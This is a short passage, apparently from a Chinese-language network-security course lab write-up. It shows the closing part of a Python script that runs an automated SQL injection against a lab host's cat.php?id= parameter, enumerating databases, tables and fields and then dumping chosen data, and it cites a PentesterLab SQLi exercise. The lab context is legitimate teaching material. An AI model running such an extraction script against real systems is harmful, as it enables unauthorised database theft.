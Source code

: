 ```python
            print('')


if __name__ == '__main__':
    url = r'http://192.168.55.3/cat.php?id='
    baseInfo(url)
    databaseName(url)
    tableName(url)
    tb_name = input("\n\nPlease select the target table:")
    fieldName(url,tb_name)
    fd_name = input('\nPlease select the target field:')
    fetchData(url,tb_name,fd_name)
```

结果大概是这样：

![script](image/script.jpg)

参阅：
- https://pentesterlab.com/exercises/from_sqli_to_shell
- https://github.com/CUCCS/2018-NS-Public-jckling
